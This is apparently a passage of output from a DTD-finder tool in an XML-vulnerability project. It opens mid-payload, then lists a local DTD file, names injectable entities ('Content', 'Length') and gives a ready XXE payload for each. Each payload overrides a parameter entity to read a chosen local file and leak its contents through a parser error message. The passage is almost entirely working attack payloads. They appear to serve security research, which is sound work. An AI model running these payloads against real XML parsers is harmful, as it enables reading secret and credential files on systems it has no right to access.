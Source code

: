 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `Content`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % Content '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `Length`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % Length '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
